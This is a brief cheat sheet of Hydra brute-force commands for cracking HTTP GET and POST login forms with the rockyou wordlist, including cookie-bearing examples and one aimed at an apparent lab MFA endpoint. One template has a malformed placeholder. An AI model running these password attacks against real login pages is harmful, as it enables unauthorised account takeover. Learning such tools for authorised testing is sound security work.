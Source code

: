 https://www.hackingarticles.in/a-detailed-guide-on-hydra/
##### Bruteforce HTTP-Get
```
hydra -l USER -P /usr/share/wordlists/rockyou.txt IP -s PORT http-get /PATH`
```

##### Bruteforce HTTP-Post-form
Post entire Burp Suite output for the variables
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER&password=^PASS^:F=Invalid Password!"`
With cookie:
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER^&password=^PASS^:H=Cookie\: PHPSESSID=vi1l68d78tdu4c84uajqdjula4:F=fail"`

```
hydra -l jason -P list.txt 10.10.204.240 http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=l6jjj91qbp4867sesgnso2ti78; user=jason_test_account; pwd=abkr:Incorrect" -I -V
```

```
hydra -l username -P list.txt IP_ADDR http-post-form "/PATH/VULN.PHP:PASSWORD_ARG=^PASS^:H=Cookie: COOKIE1=TESTl; COOKIE2=TEST2:INCORRECT_RET_VALUE" -I -V
```
Note: the "incorrect" must always be the last parameter
